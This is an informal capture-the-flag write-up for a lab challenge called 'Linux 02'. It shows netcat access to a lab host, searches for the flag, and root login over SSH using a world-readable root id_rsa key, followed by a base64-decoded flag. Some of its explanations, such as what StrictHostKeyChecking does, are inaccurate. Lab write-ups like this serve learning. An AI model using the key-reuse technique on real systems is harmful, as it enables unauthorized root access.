 # Linux 02
```bash
nc 192.168.10.7 9999
Where am I?
```

root `.ssh` folder is readable, [`id_rsa`](root_id_rsa) aswell

no success:
```bash
$ find / -type f -exec grep -Hn 'cyberctfd' {} \;
$ find / -type f -exec grep -Hn 'Y3liZXJj' {} \;
```

its not `cyberctfd{/home/ctf}`


no helpful env variables
```bash
$ printenv
USER=ctf
SHLVL=1
HOME=/home/ctf
OLDPWD=/home/ctf
PAGER=less
PS1=\h:\w\$ 
LOGNAME=ctf
LC_COLLATE=C
PATH=/bin:/usr/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/sbin
LANG=C.UTF-8
SHELL=/bin/ash
PWD=/home/ctf
CHARSET=UTF-8
```
As its said before the content from root is readable so in there we have the id_rsa

i tried to ssh to the machine with his ip 192.168.10.7 
```bash
$ ssh root@192.168.10.7 -i id_rsa -o StrictHostKeyChecking=no 2>&1
Pseudo-terminal will not be allocated because stdin is not a terminal.
ssh: connect to host 192.168.10.7 port 22: Connection refused
````
The flag -o (options) StrictHostKeyChecking=no allow us to go throw the autentitaction
So instead of that i tried with the root@localhost instead and now you are connected it give a encrypted text now u just decrypt it
```bash
$ ssh root@192.168.10.7 -i id_rsa -o StrictHostKeyChecking=no
$ echo "Y3liZXJjdGZkezFuZDMzZF93aDNyM193NDVfMX0=" | base64 -d
cyberctfd{1nd33d_wh3r3_w45_1} 
```



